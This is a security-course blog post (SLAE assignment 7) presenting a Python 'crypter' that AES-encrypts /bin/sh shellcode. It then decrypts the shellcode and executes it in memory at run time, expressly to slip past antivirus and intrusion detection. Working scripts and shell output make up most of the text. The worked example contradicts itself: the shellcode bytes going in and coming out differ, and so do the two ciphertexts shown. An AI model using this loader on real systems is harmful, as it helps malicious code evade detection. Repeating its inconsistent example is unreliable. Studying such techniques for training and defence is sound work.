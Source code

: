 ```yaml
---
title:  "SLAE x86 Assignment 7: Custom Crypter"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
#categories:
#  - exploit dev
classes: wide
#tags:
#  - exploit dev
#  - slae
---
```


### Custom Crypter
------

* Create a custom crypter
* Use any encryption schema
* Use any programming language

#### Concept 
-----

A crypter is defined as a tool that has the ability to encrypt, obfuscate, and manipulate malicious code making it undetectable to common AV and IDS systems. 

Similar to the custom Encoder created in an earlier assignment, the concept is developed further with the use of an encryption scheme, leading to a higher success rate of evasion by decrypting the malicious code at run-time and executing on the target host.

The AES (Advanced Encryption Standard) cipher  algorithm also known as Rijndael, will be used to illustrate the concept of a custom Encoder:

* Symmetric-key algorithm (same key used to encrypt and decrypt the data)
* 3 different key sizes - 128/192/256 bits
* 128-bit block sizes (data is divided into 4x4 arrays, each containing 16 bytes)
* High-speed performance and low RAM (memory) utilization when encrypting/decrypting 

![AES](/assets/images/AES.jpg) 

2 steps used to demonstrate the Crypter process:

* Encryption
* Decryption (along with execution of the shellcode)

#### Encryption
--------

The execve-stack shellcode from the course material will be used as a reference for the shellcode, which spawns a <code class="language-plaintext highlighter-rouge">/bin/sh</code> shell on the local host:

```bash
"\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

A python script will be used as a Crypter wrapper to implement the AES encryption/decryption, referenced from Code Koala [http://www.codekoala.com/posts/aes-encryption-python-using-pycrypto] [encryption-codekoala].

Note in this instance a static 128-bit key <code class="language-plaintext highlighter-rouge">KeepMeSecureEKEY</code> is hardcoded into the script for the sake of the POC to illustrate the concept, best practice recommends a randomly generated key dynamically generated (avoid hardcoding/storing within the script):

```python
#!/usr/bin/python

# Filename: AES_encryption.py
# Author: h3ll0clar1c3
# Purpose: Wrapper script to generate encrypted shellcode from the original shellcode
# Usage: python AES_encryption.py 

from Crypto.Cipher import AES
import sys
import os
import base64

def aes128(shc):

#block size = 16 byte arrays
 BLOCK_SIZE = 16 
 PADDING = '{'
 pad = lambda s: s + (BLOCK_SIZE - len(s) % BLOCK_SIZE) * PADDING
 EncodeAES = lambda c, s: base64.b64encode(c.encrypt(pad(s)))

#static encryption/decryption key - must be 16/24/32 bytes long
 secret = 'KeepMeSecureEKEY' 
 cipher = AES.new(secret)
 encoded = EncodeAES(cipher, shc)
 print 'Encrypted shellcode (AES 128-bit key + base-64 encoded):\n\n', encoded

#execve-stack shellcode to spawn /bin/sh shell
shellcode = b"\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x6c\\x73\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"

EKEY = aes128 (shellcode)
```

As a POC, the AES encryption wrapper script is executed resulting in the original shellcode being encrypted and base-64 encoded:

```bash
osboxes@osboxes:~/Downloads/SLAE$ python AES_encryption.py 
Encrypted shellcode (AES 128-bit key + base-64 encoded):

5CJtU2PsI+erEYEb0l/3xle2srUXUxlJ8Zcv0RUKDAzn8dvPUM9H04Q8FCEK06HT7VlgveJoGWQDjXszmOjUkP0OvPf0OrefgZ/eRqrryx95REGDTPhOzCbPEY0el9s4zIV4N0lvsnFNy/o/aCRGOg==
```

#### Decryption (Along with execution of the shellcode)
--------------

For the decryption portion, the encrypted shellcode is hardcoded within the python wrapper script along with the AES key:

```python
#!/usr/bin/python

# Filename: AES_decryption.py
# Author: h3ll0clar1c3
# Purpose: Wrapper script to decrypt encrypted shellcode and execute original shellcode
# Usage: python AES_decryption.py 

from Crypto.Cipher import AES
from ctypes import CDLL, c_char_p, c_void_p, memmove, cast, CFUNCTYPE
import base64
import os

#block size = 16 byte arrays
BLOCK_SIZE = 16
PADDING = '{'
pad = lambda s: s + (BLOCK_SIZE - len(s) % BLOCK_SIZE) * PADDING
DecodeAES = lambda c, e: c.decrypt(base64.b64decode(e)).rstrip(PADDING)

#static encryption/decryption key - must be 16/24/32 bytes long
secret = 'KeepMeSecureEKEY' 
cipher = AES.new(secret)

#encrypted shellcode from AES_encryption.py
encoded = '5CJtU2PsI+erEYEb0l/3xiQvT0P0eeArByo4NEbKDb3n8dvPUM9H04Q8FCEK06HT7VlgveJoGWQDjXszmOjUkP0OvPf0OrefgZ/eRqrryx95REGDTPhOzCbPEY0el9s4zIV4N0lvsnFNy/o/aCRGOg=='
decoded = DecodeAES(cipher, encoded)
print 'Decrypted shellcode (AES 128-bit key + base-64 decoded):\n\n', decoded

#execute execve-stack shellcode to spawn /bin/sh shell
libc = CDLL('libc.so.6')
shellcode = decoded.replace('\\x', '').decode('hex')
sc = c_char_p(shellcode)
size = len(shellcode)
print '\nShellcode length: %d bytes\n' % len(shellcode)
print 'Here comes your shell ...'
addr = c_void_p(libc.valloc(size))
memmove(addr, sc, size)
libc.mprotect(addr, size, 0x7)
run = cast(addr, CFUNCTYPE(c_void_p))
run()
```

The final POC, the encrypted shellcode hardcoded within the python wrapper script is decoded with the AES key, along with a base-64 decode to extract the original <code class="language-plaintext highlighter-rouge">/bin/sh</code> shellcode and executed at run-time spawing a shell on the local host:

```bash
osboxes@osboxes:~/Downloads/SLAE$ python AES_decryption.py 
Decrypted shellcode (AES 128-bit key + base-64 decoded):

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

Shellcode length: 25 bytes

Here comes your shell ...
$ id
uid=1000(osboxes) gid=1000(osboxes) groups=1000(osboxes),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ 
```

##### SLAE Disclaimer ####
---------

This blog post has been created for completing the requirements of the [SLAE certification] [slae-link].

Student ID: PA-14936

GitHub Repo: [Code][github-code]

[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment7
[encryption-codekoala]: http://www.codekoala.com/posts/aes-encryption-python-using-pycrypto
